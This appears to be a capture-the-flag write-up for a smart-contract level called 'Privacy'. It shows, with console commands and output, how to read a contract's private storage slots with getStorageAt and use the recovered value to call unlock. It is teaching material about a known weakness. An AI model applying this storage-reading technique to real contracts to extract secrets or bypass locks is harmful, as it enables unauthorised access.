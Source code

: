 # Privacy

The goal of this level is to unlock the contract and that is by reading by reading certain area from storage.

# Code Breakdown

[The Smart Contract's Code can be seen here.](Privacy.sol)

This level is a bit similar to a previous level but with more complex variables that make it complicated to read the private data with [web3.eth.getStorageAt](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getstorageat)

```solidity
bool public locked = true;
uint256 public ID = block.timestamp;
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(block.timestamp);
bytes32[3] private data;
```

variables here are not important as much as their layout in store. From solity [docs](https://docs.soliditylang.org/en/v0.8.17/internals/layout_in_storage.html), we know that that each storage slot takes 32 bytes, and that multiple state variables that need less than 32 bytes can be packaged into a single storage slot if possible.
Here our first variable `locked` is of type **bool** that takes only 1 bytes of storage, but since it is followed by a **uint256** `ID` that takes a whole storage slot, both will take 1 slot of storage each, we can print them using `web3.eth.getStorageAt` with indexes 0 and 1:

```js
>  await web3.eth.getStorageAt(contract.address, 0)
<· "0x0000000000000000000000000000000000000000000000000000000000000001" // 0x1 == true
>  await web3.eth.getStorageAt(contract.address, 1)
<· "0x0000000000000000000000000000000000000000000000000000000063999b1c" // this is the hex representation of block.timestamp;
```

for `flattening` , `denomination` and `awkwardness`, they will be all packed in one storage slot, **uint8** will take 1 byte each, and **uint16** will take 2. These will be available at the 3rd index of storage **_(index counting starts from 0)_**:
_(9b1c is the uint16 representation of block.timestamp that takes 2 bytes, ff is hex of 255 and 0a is hex for 10)_

```js
>  await web3.eth.getStorageAt(contract.address, 2)
<· "0x000000000000000000000000000000000000000000000000000000009b1cff0a"
```

`data` is an array of 3 **bytes32**
they will take the next 3 storage slots

```solidity
  constructor(bytes32[3] memory _data) {
    data = _data;
  }
```

the constructor sets `data` at contract's creation.

```solidity
function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
```

`unlock` will unlock the contract if we give it the correct key, a bytes16 representation of the third index. we can log the value of data[2]:

```js
>  await web3.eth.getStorageAt(contract.address, 5)
<· "0x074273102293413299b3ee1bc06e153ede70995aa2b8e703c95b499ae9d009ee"
```

But this is 32 bytes value, to get the 16 bytes value that we need, we will simply take the first half (0x + 16 bytes (32 characters) and pass it the the `unlock` function:
```js
>  await contract.unlock("0x074273102293413299b3ee1bc06e153ede70995aa2b8e703c95b499ae9d009ee".substring(0, 34))
```
```js
>  await web3.eth.getStorageAt("0x838803EfaF7a015BFb55c4669BCE6be784926e27", 0)
<· "0x0000000000000000000000000000000000000000000000000000000000000000"
```

***Now `locked` is false.***